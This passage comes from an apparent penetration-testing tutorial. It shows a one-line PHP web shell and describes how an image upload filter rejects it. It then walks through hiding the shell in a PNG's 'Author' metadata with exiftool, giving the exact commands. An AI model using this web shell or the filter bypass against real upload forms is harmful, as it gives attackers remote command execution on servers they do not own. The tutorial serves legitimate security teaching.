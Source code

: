 {% highlight php linenos %}
<?php system($_REQUEST["cmd"]); ?>
{% endhighlight %}

If we save this web shell in a file named "ws.php" and try to upload it, the web application provides us with an error stating that the file type is not allowed.

![onlyImage](/assets/{{ imgDir }}/onlyImage.png)

It appears that the web application is checking that the extension of the uploaded file is a valid image extension. To check for additional limitations, we rename the file to "ws.png" and try to reupload it. This time, we get another error message.

![onlyRealPNG](/assets/{{ imgDir }}/onlyRealPNG.png)

Since the error message is different, we have probably passed the extension filter. However, there seems to be some other filtering mechanism. Sometimes, developers check that the content of an uploaded file corresponds to the file extension. Since we are trying to upload a PHP file with a `.png` extension, the web application is refusing to upload the file as the file content is not matching the extension. In conclusion, we now know that we can only upload valid image files with valid image file extensions. 

However, we can still upload our webshell by hiding it in the metadata of an image. We can display the metadata of an image using `exiftool` as shown below. 
{% highlight none linenos %}
kali@kali:/tmp/x$ @@exiftool hackerCat.png@@
ExifTool Version Number         : 12.10
File Name                       : hackerCat.png
Directory                       : .
File Size                       : 338 kB
File Modification Date/Time     : 2022:03:04 10:32:33-05:00
File Access Date/Time           : 2022:03:04 10:19:28-05:00
File Inode Change Date/Time     : 2022:03:04 10:32:33-05:00
File Permissions                : rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 601
Image Height                    : 398
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Significant Bits                : 8 8 8 8
Image Size                      : 601x398
Megapixels                      : 0.239
{% endhighlight %}

We start by executing `cp hackerCat.png evilHackerCat.png` to create a copy of the image. Next, we use `exiftool` to create a metadata tag named "Author" which holds our web shell. 
{% highlight none linenos %}
kali@kali:/tmp/x$ @@cp hackerCat.png evilHackerCat.png@@
kali@kali:/tmp/x$ @@exiftool -author='<?php system($_REQUEST["cmd"]); ?>' evilHackerCat.png@@
    @@@1 image files updated@@@
{% endhighlight %}
